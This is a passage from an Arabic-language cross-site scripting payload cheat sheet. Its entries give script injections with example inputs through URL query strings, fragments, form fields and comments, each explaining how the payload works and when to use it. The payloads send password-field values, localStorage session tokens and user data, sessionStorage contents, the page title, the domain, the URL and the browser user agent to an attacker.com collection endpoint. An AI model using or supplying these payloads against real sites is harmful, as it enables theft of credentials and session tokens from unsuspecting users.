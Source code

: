   - **الإدخال**: أدخل في نموذج: `<script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(Array.from(document.getElementsByTagName('input')).map(i => i.value))})</script>`
  - **كيف يعمل**: يرسل قيم جميع حقول الإدخال (مثل كلمات المرور).
  - **متى يُستخدم؟**: لجمع بيانات النماذج.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.title)</script>`
  - **الإدخال**: `https://example.com/?search=<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.title)</script>`
  - **كيف يعمل**: يرسل عنوان الصفحة.
  - **متى يُستخدم؟**: لاستخراج معلومات وصفية.

#### ج. استخراج بيانات التخزين
استخدام `localStorage` و`sessionStorage` لسرقة بيانات الجلسة.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **الإدخال**: أدخل في حقل: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>`
  - **كيف يعمل**: يرسل رمز الجلسة من `localStorage`.
  - **متى يُستخدم؟**: لسرقة رموز المصادقة.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(sessionStorage)})</script>`
  - **الإدخال**: `https://example.com/#<script>fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(sessionStorage)})</script>`
  - **كيف يعمل**: يرسل جميع بيانات `sessionStorage`.
  - **متى يُستخدم؟**: لجمع بيانات الجلسة المؤقتة.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('userData'))</script>`
  - **الإدخال**: أدخل في تعليق: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('userData'))</script>`
  - **كيف يعمل**: يرسل بيانات مستخدم من `localStorage`.
  - **متى يُستخدم؟**: لاستخراج بيانات المستخدم المخزنة.

#### د. استخراج بيانات السياق
استخدام معلومات السياق مثل النطاق أو موقع المستخدم.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.domain)</script>`
  - **الإدخال**: `https://example.com/?search=<script>new Image().src='http://attacker.com/log?d='+encodeURIComponent(document.domain)</script>`
  - **كيف يعمل**: يرسل نطاق الصفحة.
  - **متى يُستخدم؟**: لتأكيد سياق التنفيذ.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?l='+encodeURIComponent(window.location.href)</script>`
  - **الإدخال**: أدخل في نموذج: `<script>new Image().src='http://attacker.com/log?l='+encodeURIComponent(window.location.href)</script>`
  - **كيف يعمل**: يرسل عنوان URL الحالي.
  - **متى يُستخدم؟**: لتتبع موقع الضحية.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: navigator.userAgent})</script>`
  - **الإدخال**: `https://example.com/#<script>fetch('http://attacker.com/log', {method: 'POST', body: navigator.userAgent})</script>`
  - **كيف يعمل**: يرسل معلومات المتصفح.
  - **متى يُستخدم؟**: لجمع بيانات الجهاز.
